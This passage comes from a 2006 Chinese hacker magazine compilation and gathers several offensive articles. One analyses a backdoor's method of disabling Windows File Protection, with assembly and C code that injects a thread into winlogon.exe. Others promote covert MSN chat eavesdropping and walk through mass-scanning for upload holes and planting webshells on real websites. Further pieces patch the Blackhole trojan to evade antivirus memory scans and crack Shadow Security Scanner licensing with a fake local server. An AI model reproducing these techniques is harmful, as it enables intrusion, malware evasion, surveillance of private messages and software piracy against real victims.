.data:1000C7A5                 lea     edx, [esp+44Ch+var_230]
.data:1000C7AC                 push    ecx
lpNewFileName
.data:1000C7AD                 push    edx
lpExistingFileName
.data:1000C7AE                 call    MoveFileExA
```

上面的语句实际上可以理解为：

```c
MoveFileEx("TestLoad.exe", "TestLoad.exe.bak",
MOVE_FILE_DELAY_UNTIL_REBOOT|
MOVEFILE_REPLACE_EXISTING);
```


MSDN 中对MoveFileEx()函数的解释如下：

```c
BOOL MoveFileEx(
LPCTSTR lpExistingFileName,
// pointer to the name of the existing file
LPCTSTR lpNewFileName,
// pointer to the new name for the file
DWORD dwFlags
// flag that specifies how to move file
);
```

这样进程TestLoad.exe的文件映象实际上为TestLoad.exe.bak，接着Hkdoordll.dll生成被感染的TestLoad.exe，并且保存在原来的文件路径上即可。

### 灭掉系统文件保护


一旦系统启动了，Windows就开始加载已经被感染的系统程序，但是由于“黑客之门”是通过感染系统程序实现自启动的，这下子又遇到了另外一个问题。
大家都知道，在Windows 2000和Windows XP中有系统文件保护功能，一旦被保护的系统文件被修改了，就会弹出需要插入系统安装CD的对话框。这样就导致了一个问题，TestLoad.exe只是一个普通的EXE文件，而不是受系统文件保护系统保护的系统进程，那为什么黑客之门修改系统进程时，操作系统的文件保护系统不会提示呢？
这一点，我还是采用反汇编黑客之门的方法，观察它是怎样关闭系统文件保护功能的。
发现如下的代码：

```asm
.data:1000BBB0 LoadSFCDLL      proc near               ; CODE
XREF: sub_1000BC70+B7
.data:1000BBB0                 push    esi
.data:1000BBB1                 xor     esi, esi
.data:1000BBB3                 call    GetVersion
; Get current version number of Windows
.data:1000BBB3                 ; and information about the operating
system platform
.data:1000BBB9                 cmp     al, 5
.data:1000BBBB                 jnz     short loc_1000BBDF
.data:1000BBBD                 xor     ecx, ecx
;此时为Windows2000系统
.data:1000BBBF                 mov     cl, ah
.data:1000BBC1                 test    cl, cl
.data:1000BBC3                 jnz     short loc_1000BBD2
.data:1000BBC5                 push    offset aSfc_dll ; lpLibFileName
.data:1000BBCA                 call    LoadLibraryA
;此时为WindowsXP系统
.data:1000BBB0                 pop     esi
.data:1000BBD1                 retn
.data:1000BBD2 loc_1000BBD2:
; CODE XREF: LoadSFCDLL+13↑j
.data:1000BBD2                 push    offset aSfc_os_dll ; lpLibFileName
.data:1000BBD7                 call    LoadLibraryA
.data:1000BBDD                 pop     esi
.data:1000BBDE                 retn
```

上面的代码可以看出，Hkdoordll.dll根据操作系统的版本调用了Sfc.dll或者Sfc_os.dll，如果是Windows 2000(Windows NT 5.0)的话，装载Sfc.dll 如果是Windows XP(Windows NT 5.1)的话，装载Sfc_os.dll。再看下面的一段反汇编代码

```asm
sub     esp, 228h
.data:1000BC76                 lea     eax, [esp+228h+hObject]
.data:1000BC7A                 push    ebx
.data:1000BC7B                 push    esi
.data:1000BC7C                 push    edi
.data:1000BC7D                 push    offset aWinlogon_exe ; "winlogon.exe"
.data:1000BC82                 push    0
.data:1000BC84                 push    offset aDS       ; "%d/%s"
.data:1000BC89                 push    1Fh
.data:1000BC8B                 mov     edi, ecx
.data:1000BC8D                 push    eax
.data:1000BC8E                 call    sub_10008C60
.data:1000BC93                 add     esp, 14h
.data:1000BC96                 lea     ecx, [esp+234h+hObject]
.data:1000BC9A                 push    ecx
; lpMultiByteStr
.data:1000BC9B                 call    sub_100016CC
// 这个子函数就是用来得到进程ID
.data:1000BCA0                 cmp     eax, 0FFFFFFFFh
.data:1000BCA3                 jb      short loc_1000BCDB
.data:1000BCA5                 push    offset aCanTGetWinlogo
; "Can't get winlogon process id\r\n"
```

上面的函数用来得到Winlogon.exe进程的ID，以便下面打开它注入代码。

```asm
.data:1000BCDB                 push    eax
; dwProcessId
.data:1000BCDC                 push    0
; bInheritHandle
.data:1000BCDE                 push    1F0FFFh
; dwDesiredAccess
.data:1000BCE3                 call    OpenProcess ;打开目标进程
.data:1000BCE9                 mov     ebx, eax
.data:1000BCEB                 test    ebx, ebx
.data:1000BCED                 jnz     short loc_1000BD25
```

上面的汇编代码段是调用OpenProcess()函数打开Winlogon.exe进程，继续观察反汇编代码，发现下面的一段

```asm
.data:1000BD25                 mov     ecx, edi
.data:1000BD27                 call    LoadSFCDLL
.data:1000BD2C                 mov     esi, eax
.data:1000BD2E                 test    esi, esi
.data:1000BD30                 jnz     short loc_1000BD6F
.data:1000BD6F                 push    2       ;函数序号为2
.data:1000BD71                 push    esi
;SFC.dll 的 hModule
.data:1000BD72                 call    GetProcAddress
;得到SFC.dll 中序数为2 的函数的地址
.data:1000BD78                 test    eax, eax
.data:1000BD7A                 mov     [edi+10h], eax
.data:1000BD7D                 jnz     short loc_1000BDC3
```

可以发现上面的汇编代码是用来得到以前装载的Sfc.dll(或Sfc_os.dll)中的序数为2的函数的地址。接着程序跳转到了Loc_1000BDC3，继续跟踪反汇编代码，发现以下一段

```asm
.data:1000BDC3                 push    eax
; 刚才得到的SFC.dll 中函数的地址
.data:1000BDC4                 push    ebx
; Winlogon.exe 进程的句柄
.data:1000BDC5                 mov     ecx, edi
.data:1000BDC7                 call    sub_1000BBF0
<--注意这里调用函数 sub_1000BBF0
.data:1000BDCC                 push    esi     ; hLibModule
.data:1000BDCD                 mov     edi, eax
```

www.hacker.com.cn

黑客防线 2006 精华奉献本 下册

```
.data:1000BDCF    call    FreeLibrary
.data:1000BDD5    test    edi, edi
.data:1000BDD7    push    ebx        ; hObject
```

### 跟进Sub_1000BBF0函数

```
;入口参数: 进程句柄,线程开始地址
.data:1000BBF0 sub_1000BBF0 proc near
; CODE XREF: sub_1000BC70+157↑p
.data:1000BBF0
.data:1000BBF0 ThreadId      = dword ptr -1
.data:1000BBF0 hProcess      = dword ptr  7
.data:1000BBF0 lpStartAddress= dword ptr  0Bh
.data:1000BBF0
.data:1000BBF0    push    ecx
.data:1000BBF1    mov     ecx, [esp+1+lpStartAddress]
.data:1000BBF5    mov     ecx, [esp+1+hProcess]
.data:1000BBF9    lea     eax, [esp+1+ThreadId]
.data:1000BBFD    push    esi
.data:1000BBFE    push    eax        ; lpThreadId
.data:1000BBFF    push    0          ; dwCreationFlags
.data:1000BC01    push    0          ; lpParameter
.data:1000BC03    push    ecx
; SFC.dll中第二个函数的函数地址
.data:1000BC04    push    0          ; dwStackSize
.data:1000BC06    push    0          ; lpThreadAttributes
.data:1000BC08    push    edx
; 以前打开的winlogon.exe 进程的句柄
.data:1000BC09    mov     [esp+21h+ThreadId], 0
.data:1000BC11    call    CreateRemoteThread
; 创建远程线程
.data:1000BC17    mov     esi, eax
.data:1000BC19    test    esi, esi
; ESI 保存刚才新创建的线程的句柄
.data:1000BC1B    jnz     short loc_1000BC3F
.data:1000BC3F loc_1000BC3F:
; CODE XREF: sub_1000BBF0+28↑j
.data:1000BC3F    push    0FA0h
; dwMilliseconds
.data:1000BC44    push    esi
; 新创建的线程的句柄
.data:1000BC45    call    WaitForSingleObject
; 等待远程线程的结果
.data:1000BC4B    test    eax, eax
.data:1000BC4D    jz      short loc_1000BC5D
.data:1000BC5D loc_1000BC5D:
; CODE XREF: sub_1000BBF0+5D↑j
.data:1000BC5D    push    esi        ; hObject
.data:1000BC5E    call    CloseHandle
.data:1000BC64    mov     eax, [esp+5+ThreadId]
.data:1000BC68    pop     esi
.data:1000BC69    pop     ecx
.data:1000BC6A    retn    8
.data:1000BC6A sub_1000BBF0 endp
```

上面的子函数功能很简单，就是在刚刚打开的Winlogon.exe进程中创建新的线程，新线程调用SFC.dll中的序号为2的输出函数，这样便关掉了系统文件的自我保护。

事实上，根据Bgate写的《在Windows 2000/XP上安静地替换正在使用的系统文件》这篇文章的解释，在Windows 2000/XP系统下，执行系统文件保护的代码在Sfc.dll（XP在Sfc_os.dll）中，这个Dll由Winlogon.exe调用。Winlogon.exe主要调用Sfc.dll中的两个函数实现系统文件保护，Winlogon.exe调用Sfc.dll中的一个输出函数在系统启动的时候创建了一系列事件，Winlogon.exe结束时调用另外一个函数关闭上面的一系列事件，这样就关闭了系统文件保护功能。我们只需要向Winlogon.exe中注入代码调用“第二个”函数，就能取消文件保护功能了，“黑客之门”采用的也正是这样的方法。

这里需要注意的是，要把进程注入到Winlogon.exe中，需要提升自身的权限到Debug权限。

```
HANDLE hToken;
LUID DebugNameValue;
TOKEN_PRIVILEGES Privileges;
DWORD dwRet;

OpenProcessToken(GetCurrentProcess(),
    TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, hToken);
LookupPrivilegeValue(NULL, "SeDebugPrivilege", &DebugNameValue);
Privileges.PrivilegeCount=1;
Privileges.Privileges[0].Luid = DebugNameValue;
Privileges.Privileges[0].Attributes=SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken, FALSE, &Privileges, sizeof(Privileges),
    NULL, &dwRet);
CloseHandle(hToken);
```

上面关闭系统文件保护功能的实现用C语言，如下所示

```
/* 得到进程的ID, 具体的方法可以使用CreateToolHelpSnap32() ProcessFirst32() 以及 ProcessNext32()来得到 */
DWORD dwPid = GetProcessIdFromName("Winlogon.exe");
HANDLE Process=OpenProcess( FALSE, dwPid);
DWORD dwVersion;
HMODULE hSfc;
dwVersion = GetVersion();
// 判断操作系统的类型
if(((DWORD)(LOBYTE(LOWORD(dwVersion))) == 5)
{
    // Windows 2000/XP
    if((DWORD)(HIBYTE(LOWORD(dwVersion))) == 0)
        // Windows 2000
        hSfc = LoadLibrary("sfcfdll");
    else if((DWORD)(HIBYTE(LOWORD(dwVersion))) == 1)
        // Windows XP
        hSfc = LoadLibrary("sfc_os.dll");
}
// 得到函数的地址
FARPROC dwAddress=GetProcAddress(hSfc, MAKEINTRESOURCE(2));
DWORD dwThreadId;
HANDLE hThread;
// 创建远程线程
hThread =CreateRemoteThread(hProcess, 0, 0,
    (DWORD (__stdcall *)(void *)) dwAddress, 0, 0, &dwThreadId);
WaitForSingleObject(hThread, 0x0FA0);
```

### 结束语

分析完了，刚开始拿到黑客之门的时候还在想，它到底是怎样感染正在运行系统文件的呢？原来以为是修改进程句柄指向进程的操作掩码完成的，为此我还翻阅了好多文档。结果通过对程序的反汇编，渐渐发现黑客之门的程序编制技巧。这里也要感谢“黑客之门”的作者YYT，没有给它加壳，让我们有幸能一睹优秀黑客工具的容颜！
不到之处，欢迎指教，Mail:fengcaho@163.com。

## HACKER'S TOOLS

} 栏目编辑/蝴蝶) buterfly@hacker.com.cn

适合读者: 黑客爱好者、网民
前置知识: 无

### MSN 侦察兵 偷窥你的聊天记录

文/图 郭兆颖

软件版本:V2.5
软件大小:1270 MB
软件类别:共享版
应用平台:WinNT/2000/XP
下载网址:http://www.skycn.com/soft/16680.html

由于Windows很多操作系统中都内置了MSN Messenger聊天软件，再加上有强大的微软技术后盾，MSN Messenger在语音聊天领域已越来越受到人们的喜爱。相信你在用MSN聊天的时候一定不想让别人知道聊天的内容吧？可是网络一向是不怎么可靠的，现在出现了一款软件专门监视MSN Messenger聊天内容的工具——MSN侦察兵(MSN Chat Monitor)！

MSN Chat Monitor最新支持MSN 6.2版本协议，它能记录内部网络中所有MSN的聊天内容和IP，透过内部网络上网使用的MSN Messenger所传送的讯息将不再具有隐秘性。它可以主动搜寻内部网络中开启MSN Messenger的计算机，进而监听其所有对话内容，一字一句都会一字不漏地被这个软件记录下来，还可以储存成HTML网页，而使用者却无法察觉。如果你是上班族，今后使用MSN聊天时可要注意了，如果你的老板监视了你聊天的内容……不敢想下去了。

来看看这个软件怎么使用，首先运行MSN Chat Monitor，然后点击"Start"按钮开始监视，监视效果如图1所示。


如果你想保存所监视的内容，只需点击"Save(保存)"按钮，所监视的聊天记录就会被保存为HTML格式的文件，看起来非常方便，如图2所示。

好了，现在你可以"为所欲为"了!


适合读者: 脚本入侵爱好者、网管
前置知识: 无

### 网站猎手带你 全自动入侵脚本系统

文/图 越南邻国首相

继SQL注入漏洞之后，上传漏洞成为脚本系统的最大威胁。随着时间的推移植，越来越多的网站被发现存在上传漏洞，但说到实际利用；还是很多朋友非常头疼。最近明小子的旁注入侵专用程序的发布相信一定给大家带来不少的惊喜。但在这个工具的使用过程中仍有不便，它只针对某一IP上的网站，如何针对具有某一漏洞的系统集合呢？本人最近编写了一个集漏洞收集、扫描验证、旁注查询、万能上传于一体的网站入侵工具——网站猎手，开发它的目标，就是要让菜鸟朋友们也能在最新漏洞公布后，在几分钟内找到成群的肉鸡!

如图1是最新"WebHunter黑客防线专用版"的使用界面。

关于它的使用方法，看界面就大概会了。本文我将结合几个入侵例子，展示它的详细功能和使用技巧。

#### 入侵破废虚Bloging

刚得知破废虚Bloging存在文件上传漏洞，于是赶紧拿出程序，先在"搜索关键字"后的框中输入特征字串"破废虚Bloging"，然后点搜索。如图2所示。


这里你可以选择一次搜索几个网页，它默认用的是百度查询，一次10个，你也可以一次20个，也可以选择查询的页码，以免排在前面站被人先入侵完了。作者是选择20个，从第10页开始。

得到的网址可以进行整理，考虑到查询某一系统时，


www.hacker.com.cn
2006 精华奉献本 下册

会有很多提供源代码下载的网站，所以默认带“Softview”的网站会被去掉，其它选项你可视情况选择。经过整理后就可以载入进行扫描验证了。如图3所示。


载入后在左右框中选择要检测的页面，可以全选，但会影响速度。漏洞主要是Upfile.asp文件，所以选择几个相关的就可以了。点“开始检测”后就进行扫描了，扫描中的情形和得到的结果、存在漏洞的网页都会在右下的结果框中显示出来。如图4所示。

由于这个系统中多数将Upfile.asp变成大写，结果扫的全是Upload.asp，加上了大写的页面，它就扫描不出来了，这是扫完后的画面。如图5所示。


我们可以在结果框中选择某一项，点右键会弹出一个菜单，可先访问查看漏洞是否存在，由于才公布，估计都存在漏洞，我就直接选择上传。如图6所示。

由于部分网站页面不存在时会跳转到某一页面，从而误报存在网页，你可以使用群删功能删除它，也可以用批量导出功能将有某一特定漏洞的网站导出，比如默认数据库等。


下面来到了上传页面。由于它的漏洞同动网一样，这里就采用默认设置。如果是文件名利用型的，则选择动易类型，而购物商城增加了验证参数。点上传，一个后门就传上去了。如图7所示。

由于是万能上传，所以在利用时，还要在文件前加上一个“/”，变成“/myup.asp”，或者“/log//myup.asp”，这样好查找后门文件路径，不然不知传到哪了。程序内置了一个上传ASP后门，也可以导入其他后门。

我们来访问看看，果然成功了，如图8所示。

再传个后门上去看看。哈哈！还有一个人差不多与我同时间在入侵，早几分钟已传了一个提升权限的工具上去了。如图9所示。


试试权限如何，不能跨目录，试试命令，我倒！居然可以执行命令，而且那个人正在使用Serv-u提升权限啊！如图10所示。


看！它不是正在连接Serv-u的管理端口吗？！不要太羡慕我，有了这个工具，你也能做到的！当然，一次扫出那么多的漏洞网站，利用不完怎么办？不要紧，导出保存，以后再甩！嘿嘿。

### 入侵神州移动商城

要专门针对某一网站入侵怎么办呢？看我的！


这次入侵，不是我找存在漏洞的网站，而是它自己送上门的，它给我发广告电子邮件，如图11所示。

以前对这类网站很烦，但也没什么办法，有了工具可就不一样了！导入网址后，我选择扫描全部页面，当然主要是上传漏洞方面的。这一扫，它的漏洞就出来了，如图12所示。


这个上传漏洞普通的上传工具是利用不了的，不信，用老兵的万能上传工具试试！如图13所示。


不过我知道，这个是购物类网站，多了一个验证参数，我上次遇到这种情况分析过的（见《从广告邮件到肉鸡成群》一文），所以我写了一个专门的上传种类来对付它：


## HACKER'S TOOLS
> 栏目编辑）蝴蝶）butterfly@hacker.com.cn


在上传界面中，选择动感购物类，点上传，一个后门产生了，一个网站拿下了，就这么简单。如图14所示。
不止拿下了WebShell，这还是一只3389肉鸡哦，如图15所示。你看，21、43958、3389全开了，不要说你不知道怎么利用啊！


### 旁注入侵

说实话，这个工具每天找的漏洞就让人利用不过来了，旁注反而没怎么用，不过作为一个功能，总是要介绍的。
想要查和某个网站的IP相同的网站很简单，你在网址中填上地址，点获取IP，就会查出它的IP，然后查旁注网站，就可以查出与它同IP的网站。如图16所示。
点获取网址就可以获得旁注网站了，如图17所示。
其他的操作就跟前面一样，这里也就不再多说。
总的来说，这个工具集成了很多方便的功能，可以为不熟悉手工操作方法的菜鸟们提供一个几乎全自动的工具，相信以后新手的不会再为不知道如何利用上传漏洞入侵而烦恼了。在这里祝大家新年快乐，同时也感谢黑防的众小编对我的关心和指教，特送上"WebHunter黑客防线专用版"，希望大家喜欢！;D


蝴蝶：CCL我们已经连续介绍几期了，相信一直看我们杂志的朋友都已经积累了很多修改免杀黑器的经验吧？每期光盘里的免杀工具是不是也收集了很多呢？不过好戏还在后头，我们的作者一直在不断地改进他的CCL，同时也给我们带来了各种新的修改方法，相信日后CCL一定会成为一个大放异彩的经典黑器！
适合读者：黑器迷、入侵爱好者、逆向爱好者、程序员
前置知识：汇编代码阅读能力

### 让黑器在内存中颤抖
#### ——内存特征码的定位与修改
文/图 tankaiha

修改特征码系列的文章已经写了3篇了，每次都加入一些新东西，也是我对特征码定位器的改进过程。前几篇文章在黑防刊登后，就不断有朋友来找我，说现在已经完全掌握文件特征码的修改了，可是运行以后总会被XX软件的内存查杀搞掉，我原先认为该软件的内存与文件特征码是相同的，所以没有重视，后来经过实践发现原来它用了两套不同的特征码（挺牛！）。因此，这一期就来讲讲大家都非常头疼的内存免杀问题，例子就是黑洞2004皮鲁专用版|Build20041023，杀毒软件用的是瑞星。

#### 原理及测试

先说说什么是内存特征码吧。许多朋友喜欢通过加壳的方法使黑器免杀，可你是否知道，程序一旦运行，再多的壳也会被脱去，程序在内存中又恢复了本来面目。这时的黑器可以说是赤裸裸地躺在了杀软面前任其蹂躏。因此，最根本的方法还是将杀软判断黑器的内存特征码改掉，偷偷地运行，报警的不要！

先来看看内存查杀对黑洞的服务端是否有效吧。生成了主动连接型EXE服务端后，双击运行，弹出窗口显示安装成功，右下脚也显示了图标（这是为了调试方便）。再用瑞星的内存查杀进行扫描，果然，报警在内存中发现了Backdoor.Blackhole.i。如图1所示。状态里显示"清除成功"，说明黑洞的进程已经被停止了。

#### 内存特征码定位

要想修改首先得定位再找出特征码的所在。为了能够对内存特征码进行定位，我对特征码定位器CCL进行了升级，增加了该功能，下面就讲讲具体操作过程。
打开CCL后，将参数设置如下：整体参数设置->文件/内存特征码自动定位，自动操作参数设置->生成文件间隔数3秒（不要小于3秒，不然可能停不住），最小替换字节数10。然后就可以在


www.hacker.com.cn
2006精华奉献本 下册

黑防17周年


### 内存特征码修改

```
CODE:100014D0 aBiosCmosPasswd db '<< BIOS/CMOS Password >>',0,0Bh,0
CODE:100014D7 aAward db 'Award',0
CODE:100014DD aPassword db 'DESKTOP',0
CODE:100014E5 aAward1 db 'Award',0
CODE:100014EB aAward2 db 'Award',0
CODE:100014F1 aPassword1 db 'Password',0
CODE:100014FA aCmosPassword db 'CMOS Password',0
CODE:10001507 aScr db 'Scr',0
CODE:1000150B aAsus db 'ASUS',0
CODE:10001510 aAward3 db 'Award',0
CODE:10001516 aAmibios db 'AMIBIOS',0
CODE:1000151E aAcer db 'ACER',0
CODE:10001523 aAsus1 db 'ASUS',0
CODE:10001528 aAward4 db 'Award',0
CODE:1000152E aPASSWORD db 'PASSWORD',0
CODE:10001537 aAward5 db 'Award',0
CODE:1000153D aPassword2 db 'Password',0
CODE:10001546 aAward6 db 'Award',0
CODE:1000154C aAward7 db 'Award',0
```


#### 修改第一步：原文件中的特征码串清0


#### 修改第二步：加入还原代码


巧的是，这几个字符串的调用是连在一块儿的，中间没有跳转。因此，我们可以调用前一次性还原，调用后一次性清0。

修改我还是用OllyDbg。用OD打开黑洞，来到调用“CMOS/BIOS”的地方，如下：

```
00461498    8BC3    mov eax,ebx
0046149A    BA BC164600    mov edx,111.004616BC ; ASCII "<< BIOS/CMOS Password >>"
0046149F    E8 5835FAFF    call 111.004049FC
```

其中第二句将字符串的偏移传递给edx。该指令占用字节数为5，就改它了。先找空间，我们在00467D60处找到了空间，插入如下代码：

```
00467D60    pushad
00467D61    mov dword ptr ds:[4616BF],534F4942
00467D6B    mov dword ptr ds:[4616C4],534F4D43
00467D75    mov dword ptr ds:[4616F3],68636143
00467D7F    mov dword ptr ds:[461703],65726353
00467D89    popad
00467D8A    mov edx,111.004616BC   ; ASCII "<< BIOS/CMOS Password >>"
00467D8F    retn
```

代码的意思很明确，就是将改掉的四处ASCII字符串还原，并将字符串的偏移值传给edx。需要注意的是534F4942实际是SOIB，与BIOS正好相反，这是Windows内存存储机制造成的。同理534F4D43代表SOMC，68636143是hcaC，65726353是ercS，均与原字符串顺序相反。这样插入的代码写完了，再将原指令第二句修改为

```
00461498    mov eax,ebx
0046149A    call 111.00467D60
0046149F    call 111.004049FC
```

这样，当程序执行到0046149A时，就会转而执行我们插入的代码，将原字符串还原，并继续运行。

#### 修改第三步：加入清0代码

第三步就是为了保证在正常功能执行完后，将内存特征码清除，保证内存查杀无论何时检测都不会报警。我们将修改的目标锁定在00461510，看来它的作用是返回eax的值，然后判断eax是否为0来决定程序下一步的跳转，所以我们插入的代码一定要正确返回eax的值

```
0046150B    . E8 EC34FAFF    call 111.004049FC
00461510    . E8 E71BFFFF    call 111.0041C6FC
00461515    . 85C0           test eax,eax
00461517    . 74 1D          je short 111.00461536
```

在00467D90处找到空间，插入如下代码

```
00467D90    pushad
00467D91    mov dword ptr ds:[4616BF],0
00467D9B    mov dword ptr ds:[4616C4],0
00467DA5    mov dword ptr ds:[4616F3],0
00467DAF    mov dword ptr ds:[461703],0
00467DB9    popad
00467DBA    call 111.0041C6FC
00467DBF    retn
```

而原0046150B处的代码就改为

```
0046150B    . E8 EC34FAFF    call 111.004049FC
00461510    . E8 7B680000    call 111.00467D90
00461515    . 85C0           test eax,eax
00461517    . 74 1D          je short 111.00461536
```

OK，保存修改，代码添加完毕了。

#### 修改第四步：修改段属性

这一步虽然简单，但是万万不能少。因为我们修改了代码后，相当于让代码段CODE在运行时写数据，而CODE段的默认属性通常为可读可执行，并不包括可写。如果你直接运行修改后的黑洞，应该会报错。因此，我们要给原CODE段加上可写的属性。工具可以用PEInfo。

PE文件中规定可执行为0x20000000，可写为0x40000000，可读为0x80000000，加起来就是0xE0000000。而PEInfo已经将这个属性集成了，甚是方便，如图8所示。修改过后别忘了保存。


### 虚拟机测试

修改全部完成了，我们在虚拟机中看一下效果。运行后，弹出窗口显示注册成功，右下角正常显示图标。用瑞星进行内存检测，呵呵，已经查不到了。

下面看看功能是否正常。添加主机，然后调用查看系统密码功能（因为我们修改的地方就牵扯到这个功能），不错，能正常查看屏保密码，如图9所示。不过BIOS密码我没设。


### 结语

关于内存查杀就说这么多了，其实利用Winhex手动修改内存也可以定位出特征码，但是花费的时间，呵呵。CCL还没有做到完美，因为EXE和DLL的内存特征码检测好像不一样，比我想的复杂，相信下一个版本会解决这个问题的。文中的Bug，请一定指出，好的建议也请一定告诉我。

蝴蝶 SSS(Shadow Security Scanner)在安全界的名声很响。玩黑客的朋友有几个不知道SSS的呢？但是大家都知道SSS是商业扫描器，需要购买授权才能使用，所以很多朋友都用SSS的注册机来解除未注册版本的限制。但是SSS的7.30版本已经把注册认证放到了网上，注册机算出来的注册文件，绝大多数不能通过Safety-Lab的网络认证。而且，7.30版本的破解程序还没有人写出来。于是，本文作者通过另类的手段，完美地注册了SSS 7.30，想知道这是如何实现的吗？请看下文……

适合读者：黑器迷、入侵爱好者、程序员
前置知识：无

### 愚公移山——顶破SSS的技术封锁

文/图 彭硕

最近实在是忙得不亦乐乎，一边埋头整理开学要上交的网络安全研究课题，一边在网上清理恶意网站。我的爱机也跟着我连轴转，没有多少休息的时间（还好我的机器是双Xeon的服务器，哈哈）。一天突然要用到SSS，立刻到黑白网络上下载了一个下来。结果一注册傻眼了，这个SSS 7.30竟然用上了网络认证，注册机生成的注册文件根本没通过认证。忽然想起了2005年《黑客在线》上有一篇文章介绍SSS，翻来看看。这不看还好，看完了我差点没从6楼跳下去。杂志上面写着：“面对SSS无法破解的问题，小编采用虚拟机恢复大法……”我真的绝望了，看来N多的高人已经对这个SSS束手无策，我还能做什么呢？难道就只能这样了吗？
不过，我就是不信邪，非得要把这个SSS破掉不可。爆破？不太可能。其他的方法呢？我又不会（检讨一下，当年破解没学好）。干脆顺水推舟，由着SSS来算了。

#### 灵巧的破解

首先，咱们还是老方法，用注册机生成一个注册文件。这个注册文件不是万能的，但是没有它是万万不能的，填写注册信息，按Generate就OK了，如图1所示。


图1

好了，我们先不管它，让它一边凉快去（蝴蝶：不管它你生成它做什么？欠扁……），不是这个意思，等一会才能用到它啦。

在下一步之前，必须说一个东西：Host文件。这个文件大家不会不知道吧？它的功能就是替代DNS进行域名解析，以便达到快速访问的目的，而且它在查询中的优先权要比网络上的任何DNS服务器都高。所以，只要改Host文件，就可以“绑架”域名了。有很多朋友的机器，就算输入了正确的网址，也会打开一些恶意网站，多半是这个文件被修改了的原因。需要注意，这个文件没有后缀名，位于%windir%\system32\drivers\etc下（Windows 2000/XP/2003系统）。我们用记事本把这个文件打开，在里面加入这么一行：
127.0.0.1 www.safety-lab.com
这个www.safety-lab.com是SSS的官方站点，我们这么做就是为了欺骗SSS，让它连接到自己的服务器上。因为经过我的Sniffer抓包发现，SSS在认证注册的时候，向http://www.safety-lab.com/update/db/keys.php提交了用户数据，并且在验证失败的时候，服务器端返回了一个1。有经验的朋友一眼就能看出来，SSS应该就是靠这个返回值来判断用户是否合法。也就是说，只要让这个值变成0，我们就可以成功注册了。
有人会问了，你怎么知道返回0，就是注册成功呢？不可能是别的数字吗？其实这个我也是猜一半，用社会工程学推导一半。其实，有时玩黑客并不一定需要技术，还需要那么一点点的运气。

我们先来架设一个Web服务器，既然大家都是Windows用户，就用IIS好了（以下配置IIS的过程是在2003系统下实现的，2000/XP可能有所不同，请参考相关资料）。进入站点的属性→主目录→配置→映射，为.dat,.pl和.php三种后缀的文件添加映射。可执行文件框里，你的.asp文件是怎么设置的，不动就行，如图2所示。
这样做的目的是让这3种后缀名的文件，在IIS中都可以被当作ASP文件执行。其实，用别的语言实现也可以的，不过笔者只会ASP，没办法。设置好映射，我们来做几个文件，“忽悠忽悠”SSS。
最要紧的就是先注册了，否则什么功能也不能用。我们来分析一下这个Keys.php的代码（其实是ASP语言，这个Keys.php在IIS中是被当成ASP执行的）：


图2

```asp
[以下代码在Keys.php中]
<%
Dim crc,name,founder '定义几个变量
founder=true '为了防止程序出错，把控制错误的变
设值为true
```

## HACKER'S TOOLS

> 栏目编辑 / 蝴蝶) butterfly@hacker.com.cn

```vbscript
if request("crc")<>"" and request("name")<>"" then
founderr=false
end if

if founderr=false then
response.write "<html><body>0" '如果有输入，就返回一个值
response.end
end if

if founderr=true then
response.write "<html><body>1" '处理意外情况，防止SSS收不到返回值而挂掉。
response.end
end if
%>
```

这段代码很简单，只接受SSS发送上来的CRC和NAME两个变量，并返回一个值。大家可能看出来了，这个返回值<html>和<body>标签并没有结束，其实这不需要结束。因为我分过析Sniffer抓到的完整的数据包，发现就是这样的。也许是Safety-Lab故意做的一个陷阱吧，管他呢，能注册就OK。

我们的host文件不是已经改好了吗？那就把以上的代码保存成Keys.php，放到你的IIS根目录下的/update/db/下（如果你的IIS根目录在E:\inetpub\wwwroot\，就放在E:\inetpub\wwwroot\update\db\）。然后我们打开SSS，导入注册文件，点击Done，看看，这不就完事了？如图3所示。


不过，单单破解，并不能满足我们的要求。如果现在你用在升级，仍然会失败。而且还会把你刚注册上去的授权撤销。那怎么办呢？嘿嘿，接着往后看不就知道了？

破了软件不能升级，那就跟用D版XP一个感觉——很不爽。所以，又花了点功夫，把升级的限制也解除了，虽然不是很完善，但确实可以检测升级了。

还是老方法，用Sniffer把升级过程的包抓下来，分析一下。我们看到SSS的升级程序访问了以下页面：（前面都是http://www.safety-lab.com/，省略）

- \update\db\keys.php 还是验证身份，阴险……
- \update\sss\update.dat 这是一个数据文件（功能未知）；
- \update\db\getdbaudits.pl 一个数据引导文件，用于生成更新列表。

先拿出来分析，然后各个击破。这个Keys.php刚才讲过了，我就不说了。Update.dat文件好像是一个索引文件，据我的观察，它还是在变动的，但是它却是没有经过服务器的解析，可以直接下载下来，但为了保持数据最新，我们还是用动态的方法来处理吧。先看一段代码吧：

```asp
[以下代码在update.dat中]
<% 
On error resume next ' 没别的意思，防止出错而已
Dim sURL

Dim Retrieval
Function GetURL(url)
Set Retrieval = Server.CreateObject("Microsoft.XMLHTTP")
With Retrieval
.Open "GET", url, False, "", ""
.Send
GetURL = .ResponseText
End With
Response.BinaryWrite retrieval.responseBody
' 输出二进制到浏览器
Set Retrieval = Nothing
End Function

sURL = "http://safety-lab.com/update/sss/update.dat"
' 这个是要获取的地址
Response.Write GetURL(sURL)
%>
```

这是ASP编程中很经典的一个函数的应用。这个页面的作用就是让IIS到另一个站点，取得一个页面，然后传回客户端。假设这个存在于主机A上的页面指向的是主机B上的内容，但是主机A的客户通过访问这个页面，就可以在主机A上看见主机B上的东西。但是，这个和普通网页中用JavaScript实现的页面重定向是不同的JavaScript是让客户端重新定向，这个是以IIS为中介的服务器的重定向。

尤其是针对程序请求的页面的时候。因为程序不会识别那些由JavaScript语言组成的重定向语句，而这样的方法则不需要客户端的支持。哦，差点忘了一个事情，如果你的机器上有类似VisNetic Firewall一类的带有IDS功能的防火墙，把它关闭，否则会出错的。我当时调试的时候，这个Update.dat怎么访问都有问题，后来发现是VisNetic的过滤功能把请求给过滤了。

再来看另外一个文件代码

```asp
[以下代码在getdbaudits.pl中]
<%
On error resume next
Dim outformat,sURL
outformat=request("outformat")

Dim Retrieval

Function GetURL(url)
Set Retrieval = Server.CreateObject("Microsoft.XMLHTTP")
With Retrieval
.Open "GET", url, False, "", ""
.Send
GetURL = .ResponseText
End With
Response.BinaryWrite retrieval.responseBody ' 输出二进制到浏览器
Set Retrieval = Nothing
End Function

sURL = "http://safety-lab.com/update/db/getdbaudits.pl?outformat=" & outformat
Response.Write GetURL(sURL)
%>
```

